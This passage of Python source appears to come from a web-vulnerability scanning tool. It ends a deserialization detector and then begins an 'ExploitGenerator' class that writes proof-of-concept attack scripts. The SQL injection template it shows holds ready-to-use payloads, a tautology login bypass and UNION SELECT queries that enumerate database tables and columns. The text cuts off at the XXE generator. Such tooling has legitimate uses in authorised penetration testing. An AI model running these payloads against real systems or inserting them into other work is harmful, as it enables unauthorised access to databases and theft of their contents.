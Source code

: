 ```python
        # Check for PHP serialization
        for pattern in self.php_patterns:
            if pattern in request.body:
                issues.append({
                    'type': 'DESERIALIZATION',
                    'severity': 'HIGH',
                    'description': 'PHP serialized data detected'
                })
                break

        # Check Content-Type
        content_type = request.headers.get('Content-Type', '')
        if 'java' in content_type.lower() or 'serialized' in content_type.lower():
            issues.append({
                'type': 'DESERIALIZATION',
                'severity': 'HIGH',
                'description': 'Serialization indicated in Content-Type'
            })

        return issues
```

#### D. Automated Exploit Generation

```python
class ExploitGenerator:
    """Generate PoC exploits for discovered vulnerabilities"""

    def generate(self, vulnerability):
        """Generate exploit code for vulnerability"""

        if vulnerability['type'] == 'SQLi':
            return self._generate_sqli_exploit(vulnerability)
        elif vulnerability['type'] == 'XSS':
            return self._generate_xss_exploit(vulnerability)
        elif vulnerability['type'] == 'XXE':
            return self._generate_xxe_exploit(vulnerability)
        elif vulnerability['type'] == 'CSRF':
            return self._generate_csrf_exploit(vulnerability)

    def _generate_sqli_exploit(self, vuln):
        """Generate SQL injection exploit"""
        return f"""
# SQL Injection Exploit
# Target: {vuln['url']}
# Parameter: {vuln['parameter']}

import requests

url = "{vuln['url']}"
payload = "' OR '1'='1-- "

response = requests.get(url, params={{"{vuln['parameter']}": payload}})
print(response.text)

# For database enumeration:
payloads = [
    "' UNION SELECT NULL,NULL,NULL-- ",
    "' UNION SELECT table_name,NULL,NULL FROM information_schema.tables-- ",
    "' UNION SELECT column_name,NULL,NULL FROM information_schema.columns-- "
]
"""

    def _generate_xxe_exploit(self, vuln):
```